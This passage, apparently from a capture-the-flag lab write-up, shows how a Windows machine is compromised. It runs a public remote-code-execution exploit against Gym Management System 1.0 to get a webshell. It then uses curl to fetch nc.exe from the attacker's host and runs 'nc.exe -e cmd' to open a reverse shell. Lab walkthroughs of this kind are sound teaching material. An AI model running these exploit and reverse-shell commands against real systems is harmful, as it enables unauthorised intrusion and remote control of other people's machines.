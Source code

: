 Searching for exploits I find an unauthenticated remote command execution for  [__gym management system 1.0__](https://www.exploit-db.com/exploits/48506), I clone the script to my machine
```bash
$ searchsploit -m php/webapps/48506.py
```

and I run the script 

```bash
$ ./48506.py http://10.10.10.198:8080/
...<snip>...
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

to upgrade the webshell to a normal shell I will download nc on the target machine.

first I start a nc listener 
```bash
$ rlwrap -cAr nc -lvnp 9001
```

I serve nc.exe in a web server through python
```bash
python3 -m http.server 80 
```

on the target machine I use curl to download the executable and run it 
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.14.13/nc.exe -O 


C:\xampp\htdocs\gym\upload> dir
 Directory of C:\xampp\htdocs\gym\upload

20/08/2024  20:01    <DIR>          .
20/08/2024  20:01    <DIR>          ..
20/08/2024  19:56                53 kamehameha.php
20/08/2024  20:01            28,160 nc.exe
               2 File(s)         28,213 bytes
               2 Dir(s)   7,236,259,840 bytes free

C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.14.13 9001 
```

and I get a shell as shaun
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49686
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```
